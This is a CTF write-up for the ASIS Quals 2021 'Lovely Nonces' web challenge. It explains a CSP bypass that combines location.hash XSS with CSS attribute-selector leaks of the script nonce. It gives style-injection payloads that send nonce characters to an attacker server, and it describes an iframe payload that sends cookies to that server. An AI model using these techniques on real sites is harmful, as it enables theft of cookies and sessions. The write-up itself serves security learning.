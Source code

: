 ```yaml
---
title: "ASIS Quals 2021: Lovely Nonce"
date: 2021-10-24T13:49:21-07:00
draft: false
comments: false
toc: true
images:
categories:
  - writeups
tags: 
  - writeups
  - xss
  - css-leak
  - web
---
```


Lovely Nonces is a challenge from ASIS Quals 2021, involving interesting CSP bypasses and stylesheet leaks. My teammate [Ming](https://ubcctf.github.io/authors/ming/) and I solved this challenge together, and a copy of the writeup (with the index.html file used in the exploit) can be found in the [UBC CTF blog](https://ubcctf.github.io/2021/10/asisquals-2021-lovelynonces/).

## TL;DR
CSS attribute selectors for a stylesheet leak of the CSP nonce combined with XSS.

## Recon

The CSP is implemented via a meta-tag in the DOM, and not through response header as is usually the common practise. It's just one directive, `script-src`, with the randomly generated nonce value, which we can try to retrieve.

```HTML
<meta http-equiv="Content-Security-Policy" content="script-src 'nonce-$NONCE$'">
```

{{< image src="/images/ASISnonceCSP.png" alt="CSP" position="center" style="border-radius: 8px;" >}}

(Note: it is also possible to extract this nonce from the `script` tag on the same page)

The cookie is set to the localhost domain - which is important moving forward with our exploit (we won't be injecting our payloads on the lovelynonce domain, it'll be on localhost). 

```js
await page.setCookie({
			name: 'flag',
			value: process.env.FLAG || "flag{fake-flag}",
			domain: "localhost",
			expires: now() + 1000
		})
```

On the HTML of the page is a location.hash navigator that sets an element in the HTML to the value of whatever `document.location.hash` was. 

```HTML
    <script nonce="$NONCE$">
    	document.location.hash = "";
    	window.onhashchange = ()=>{
    		if(document.location.hash) {
          		desc.innerHTML = decodeURIComponent(document.location.hash.slice(1));
				document.location.hash = "";
        	}
    	};
    </script>
```

Test this out by appending `#%3Cp%3Etest%3C%2Fp%3E` (just the URLencoded version of `#<p>test</p>`) to the challenge webpage and see how this code snippet works. This is an easy XSS vector, but obviously the CSP isn't letting us do something so trivial as `#<script>alert(1337)</script>`.

There's a report function that actually utilizes this browser-side JS to add a report form in the webpage. 

## Exploit in Detail 

The location hash is a potential XSS vector. You can copy-paste the webpage's nonce value into an iframe with the srcdoc attribute and achieve XSS. 

```HTML
<iframe srcdoc="<script nonce=[THEIR_NONCE]>alert(1)</script>"></iframe>
```

This works because iframes loaded with `srcdoc` aren't cross-origin. BUT, this also won't work for the challenge as the server generates unique nonces for each request, meaning that our nonce won't be the same nonce that the admin has when they load up our webpage with our iframe payload. The CSP is technically doing it's job, and even with the copy-pasted nonce and srcdoc iframe, this is just a self-XSS for now. Ideally, we want to find out the nonce of the webpage when the admin visits - and while they're still on the webpage, load up our iframe payload with the correct nonce.

Nonces implemented via the meta-tag, or nonces within the script-tag can be leaked through CSS attribute selectors. Setting the hash to: 

```HTML
<style>*{display:block}meta[content^="script-src nonce-a"]{background-image:url("http://our-server/result?nonce=a");}</style>
```

or

```HTML
<style>script[nonce^="a"]{display:block;background:url("http://our-server/result?nonce=a");}</style>
```

will send a request to our server in the event that any element with the right attribute stuck to it has a value starting with `script-src nonce-a`. We can extrapolate this further to brute-force each character in the attribute value and use fetches to our server to extract the correct 'next character' of the nonce.

If the CSS attribute selector successfully finds a tag that matches the above conditions, then a request is fired to our server. Otherwise, no request is made to our server.

To change the hash, we have the admin open a window to the vulnerable page (localhost:8000), identified by a name (
`open("http://localhost:8000/", "thisOneWindow")`), and after that, we can have the admin open a window with the same url, but with a different hash, and the same name (
`open("http://localhost:8000/#aaaaa", "thisOneWindow")`). The browser has this page cached, and as a result, we will still be using the same page, just with a different location hash.


## The Exploit Flow
The attack flow is as follows: 

1. Admin visits our server, hosting an index.html that will load the challenge page.

2. Iterating through the alphanumeric charset, the injected style tag in the hash tests for each char if it is in the nonce - and if so, sends a request back to our server.

3. That request is processed by our Node backend, which pushes the correctly guessed character into an internal array.

4. The JS in index.html (the browser JS) sets a short timeout and then tries to retrieve the value in that internal array from the backend, updating the nonce value guessed so far and testing the next char in line. 

5. This process repeats from step 2 until the entire nonce is leaked.

6. With the full nonce, we set the iframe payload with the correct, complete nonce value that dumps cookies back to our server.

7. Flag! `ASIS{nonces_disappointed_me_df393b}`


## Relevant Sources
* [Bypass CSP nonces with DOM XSS](http://sirdarckcat.blogspot.com/2016/12/how-to-bypass-csp-nonces-with-dom-xss.html)
	* Explains how to use CSS attribute selectors to get nonce.
* [Window Opener and XSS Vectors](https://medium.com/tsscyber/penetration-testing-window-opener-xss-vectors-part-2-7810ebfccc1d)
	* Explains how to exploit `location.hash`.
* `Robert's brain`
	* Found a way to inject a script tag that executes immediately even after the page has loaded.
